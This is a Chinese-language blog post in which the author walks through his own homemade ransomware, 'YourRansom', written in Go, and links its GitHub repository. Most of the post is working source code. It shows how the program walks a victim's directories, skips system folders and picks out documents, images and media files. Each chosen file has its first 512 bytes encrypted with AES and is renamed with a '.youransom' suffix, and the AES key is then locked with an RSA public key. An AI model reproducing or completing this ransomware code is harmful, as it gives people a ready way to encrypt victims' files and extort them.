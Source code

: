 ```yaml
---
title: 自制勒索有感&技术简析
date: 2017-01-10
categories:
 - 手记
---
```


嘛自从去年10月更过博客之后就啥都没写过了。。。这次正好趁着卫队搞新年活动写点什么。

前段时间在卡饭，勒索病毒是很火的一个讨论话题，而我也跟着一位大神的风写了一个简单的勒索病毒，这里写一点东西，作为纪念。

说起勒索病毒，其实它的行为和技术都很简单（除了某些硬肛硬盘的品种之外，当然我们今天讨论的只有普通的文件加密病毒，像cerber那样的）
其主要行为由遍历和加密两部分组成，下面在下使用自己的代码分析一下这两部分的实现（代码较渣还请原谅

首先是遍历，这一部分十分简单，不过还有一个很重要的问题需要注意：不要无脑。先前在下的第一版YourRansom就是因为无脑遍历进了系统文件夹还试图加密才被。。。
闲话不多说，先上代码：

```golang
func do_cAll(path string, cip cipher.Block, action byte) error {

	//	获取一下路径的信息
	dir, serr := os.Stat(path)
	if serr != nil {
		return serr
	}
	//	判断是否是个目录，如果不是就交给加(解)密处理
	if !dir.IsDir() {
		if action == 'e' && !filter(path, action) {
			return nil
		}
		fmt.Println("File: ", path)
		switch action {
		case 'e':
			encrypt(path, cip)
		case 'd':
			decrypt(path, cip)
		}
	}

	//	既然到这里了那就是个目录了，让我们继续遍历
	fmt.Println("Path: ", path)
	//	先打开这个目录
	fd, err := os.Open(path)
	if err != nil {
		return err
	}
	//	获取到目录下前100个文件名
	names, err1 := fd.Readdirnames(100)
	if len(names) == 0 || err1 != nil {
		return nil
	}
	//	为每一个文件名迭代一遍自身
	for _, name := range names {
		do_cAll(path+string(os.PathSeparator)+name, cip, action)
	}
	return nil
}
```

其中为了防止无脑遍历我上了一个filter函数，用于判断传入的目录或文件名是否有关键词，以确认是否可以肛(虽然实现还是很无脑)：
```golang
func filter(path string, action byte) bool {

	//	将传入的路径转为全小写，便于判断
	lowPath := strings.ToLower(path)

	//	屏蔽和加密后缀列表
	innerList := []string{"windows", "program", "appdata", "system"}
	suffixList := []string{".txt", ".zip", ".rar", ".7z", ".doc", ".docx", ".ppt", ".pptx", ".xls", ".xlsx", ".jpg", ".gif", ".jpeg", ".png", ".mpg", ".mov", ".mp4", ".avi", ".mp3"}

	//	判断路径中是否包含敏感词(大雾)
	for _, inner := range innerList {
		if strings.Contains(lowPath, inner) {
			//		如果存在就返回false
			return false
		}
	}
	//	判断路径是否以加密后缀结尾
	for _, suffix := range suffixList {
		if strings.HasSuffix(lowPath, suffix) {
			//			如果是就返回true
			return true
		}
	}
	//	既然到这里了那肯定就是既不包含敏感词，也没有加密后缀名的，还是false
	return false
}
```

嗯，这样遍历就实现完成了，接下来是加密这个重头戏。得益于Golang内置库的完备，我们可以直接import一个`crypto/aes`包来实现aes的加解密。
下面是aes加密的实现：

```golang
func encrypt(filename string, cip cipher.Block) error {

	//	判断该文件是否已加密了
	if len(filename) >= 11 && filename[len(filename)-10:] == ".youransom" {
		fmt.Println("Warning: A encrypted file found.")
		return nil
	}

	//	试图打开文件用于写入
	f, err := os.OpenFile(filename, os.O_RDWR, 0)
	fmt.Println("Encrypt: ", filename)
	if err != nil {
		return err
	}
	fstat, _ := f.Stat()
	size := fstat.Size()

	//	开始循环加密
	buf, out := make([]byte, 16), make([]byte, 16)
	for offset := int64(0); size-offset > 16 && offset < 512; offset += 16 {
		f.ReadAt(buf, offset)
		cip.Encrypt(out, buf)
		f.WriteAt(out, offset)
	}

	//	关闭文件并添加后缀
	f.Close()
	os.Rename(filename, filename+".youransom")
	return nil
}
```

嗯，在下很贴心地添加了防止二次加密的相关判断用于保护用户的数据安全，多么贴心啊(滑稽

相信有不少兄弟在看到aes加密的时候都是一脸蒙蔽状态：这是啥为啥我看不明白。其实不需要在意太多，因为是全黑盒的所以只要用就好了。
不过基础知识还是要知道的，这里在下简单地说一下：

AES是一种对称加密算法，通常我们可以认为在没有密钥的情况下是无法解密AES的。而所谓对称加密，可以理解为像通常我们理解的加解密那样，用同一个密钥既能加密，也能解密。
这背后是有比较复杂的数学原理的，喜欢探究而且高数成绩不错的同学可以试试去wiki的aes页面看一眼。

毫无疑问AES的性能是很高的，而通常我们看到的勒索却大都写着使用RSA加密，这是一个显而易见的原因的，就是AES是对称加密。
我们很难去简单的使用对称加密实现一个“用户被加密之后不管怎么搞都解不了密只能乖乖交钱”的场景，无论是发送到服务器，还是保存到本地，都是很危险的。
还记得曾经有一个国产加密使用AES还直接把密钥存到本地最后没收到钱还被嘲讽了一番的悲伤故事么？

而这种场景交由rsa实现简直不能再棒了：
RSA是一种非对称加密，它有两个密钥：用其中一个密钥加密的数据只有用另一个密钥才能解密。这就完美地消除了将密钥存储在本地的危险。

下面是在下使用rsa加密aes密钥的实现：

```golang
func saveKey(cip []byte) {
	keyFile, _ := os.Create("YourRansom.key")
	block, _ := pem.Decode(pubKey)
	pubI, _ := x509.ParsePKIXPublicKey(block.Bytes)
	pub := pubI.(*rsa.PublicKey)
	word, _ := rsa.EncryptPKCS1v15(rand.Reader, pub, cip)
	keyFile.WriteAt(word, 0)
	return
}
```

最后把它们拼在一起，就成为了YourRansom，一个简单至极的自制勒索。

Github：[https://github.com/popu125/YourRansom](https://github.com/popu125/YourRansom)

17/01/17